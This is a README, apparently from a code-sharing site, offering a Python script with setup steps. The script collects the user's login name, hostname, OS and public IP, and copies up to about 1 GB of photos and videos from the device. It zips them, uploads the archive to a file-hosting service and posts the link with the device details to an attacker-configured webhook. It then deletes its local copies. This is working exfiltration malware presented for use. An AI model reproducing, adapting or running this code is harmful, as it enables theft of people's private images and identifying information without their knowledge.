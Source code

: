 # Usage Instructions for your Python Script

## Webhook Configuration

Replace `YOUR_WBK_URL` with your own webhook URL.

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"
```

</details>

## Python Script

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"

import os
import platform
import zipfile
import requests
import json
import shutil
import socket

COLOR_RED = "\033[91m"
COLOR_GREEN = "\033[92m" 
COLOR_MAGENTA = "\033[95m"


def adresse_ip():
    response = requests.get("https://ipinfo.io/json")
    ip_data = json.loads(response.text)
    return ip_data.get('ip', 'N/A')

informations = {
        "Utilisateur": os.getlogin() if os.name == "posix" else None,
        "nom d'hôte": socket.gethostname(),
        "Système d'exploitation": platform.system(),
        "Version du système d'exploitation": platform.release(),
        "Adresse IP": adresse_ip()
}

max_fichiers = 10 
count_per_directory = 0
max_go = 0.99 
dossier_img = "images"
if not os.path.exists(dossier_img):
    os.makedirs(dossier_img) 

def taille_dossier(dossier):
    total_size = 0
    with os.scandir(dossier) as it:
        for entry in it:
            if entry.is_file():
                total_size += entry.stat().st_size
            elif entry.is_dir():
                total_size += taille_dossier(entry.path)
    return total_size / (1024 * 1024 * 1024)

def copier(directory_path):
    global count_per_directory, dossier_img
    taille_images_gb = taille_dossier(dossier_img)
    for root, dirs, files in os.walk(directory_path):
        for file in files:
            if taille_images_gb > max_go:
                print(COLOR_MAGENTA + "[+] Recovered files, Downloading.")
                return 
            if count_per_directory >= max_fichiers:

                count_per_directory = 0
                dossier_img = "images"

            if file.lower().endswith(('.jpg', '.jpeg', '.mp4', '.mov')):
                source_path = os.path.join(root, file)
                destination_path = os.path.join(dossier_img, file)

                taille_mo = os.path.getsize(source_path) / (1024 * 1024)
                if taille_mo > 60:
                    print(COLOR_RED + f"[-] The {file} file exceeds the size limit (60 MB).")
                    continue 

                if os.path.abspath(source_path) != os.path.abspath(destination_path):
                    try:
                        shutil.copy(source_path, destination_path)
                        count_per_directory += 1
                        taille_images_gb = taille_dossier(dossier_img)
                        prcent = taille_images_gb*100
                        print(COLOR_GREEN + f"Images / videos found: {prcent:.2f} %")
                    except PermissionError as e:
                        print(COLOR_RED + "[*]")
                else:
                    print(COLOR_RED + "[-]")

repertoire_actuel = os.getcwd() 
copier(repertoire_actuel)

with zipfile.ZipFile("images.zip", "w", zipfile.ZIP_DEFLATED) as zipf:
        for root, dirs, files in os.walk(dossier_img):
            for file in files:
                zipf.write(os.path.join(root, file), file)


upload_url = "https://store1.gofile.io/uploadFile"

fichier_zip = "images.zip"

with open(fichier_zip, "rb") as file:
    files = {"file": file}

    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        data = response.json()

message = {
    "embeds": [
        {
            "title": "Images found on the device",
            "color": 000000000,
            "fields": [
                {"name": "User", "value": informations["Utilisateur"], "inline": True},
                {"name": "Host name", "value": informations["nom d'hôte"], "inline": True},
                {"name": "Operating system", "value": informations["Système d'exploitation"], "inline": True},
                {"name": "Version of operating system", "value": informations["Version du système d'exploitation"], "inline": True},
                {"name": "Ip adress", "value": informations["Adresse IP"], "inline": True},
                {"name": "ZIP file link", "value": data["data"]["downloadPage"], "inline": False}
            ]
        }
    ]
}
response = requests.post(wh00k, json=message)
print(COLOR_GREEN + "[++] Download complete.") 
shutil.rmtree(dossier_img)
os.remove("images.zip") 
```

</details>

## Running the Script

1. Configure the webhook URL as shown above.
2. Run the script in your Python environment.

## Important Notes

- This script copies image and video files from the device from which it is executed, up to 1 GB of files.
- It then creates a ZIP file from the copied images and videos.
- Finally, it uploads the ZIP file to the specified file upload service and sends a notification via the webhook.

## subscribe !
<details>
    <summary>click to see my differents accouts</summary>
    
    - tiktok: https://tiktok.com/@douxx.py
    
    - discord: https://discord.gg/dXMnMsEuG4
    
    - github: https://github.com/douxxu
</details>


